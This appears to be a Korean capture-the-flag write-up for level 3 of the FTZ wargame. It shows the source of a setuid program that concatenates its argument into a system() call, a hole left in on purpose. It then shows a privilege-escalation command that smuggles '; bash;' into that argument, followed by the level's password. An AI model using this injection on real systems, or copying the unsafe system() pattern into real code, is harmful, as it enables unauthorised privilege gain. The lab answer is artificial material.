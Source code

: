 # Level3

This level's goal

- system('CMD') vulnerability

***

`[level3@ftz level3]$ cat hint`

다음 코드는 **autodig**의 소스이다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

char cmd[100];

if( argc!=2 ){
    printf( "Auto Digger Version 0.9\n" );
    printf( "Usage : %s host\n", argv[0] );
    exit(0);
}

strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");

system( cmd );
}
```

이를 이용하여 level4의 권한을 얻어라.

more hints.

1) 동시에 여러 명령어를 사용하려면?

2) 문자열 형태로 명령어를 전달하려면?

***

```
[level3@ftz level3]$ find / -name autodig 2>/dev/null
/bin/autodig
[level3@ftz level3]$ find / -user level4 -perm -4000 2>/dev/null
/bin/autodig
[level3@ftz level3]$ ls -l /bin/autodig
-rwsr-x---    1 level4   level3      12194 Aug 19  2014 /bin/autodig
```

```
[level3@ftz level3]$ /bin/autodig "8.8.8.8 www.naver.com; bash;"
[level4@ftz level3]$ my-pass

Level4 Password is "suck my brain".
```

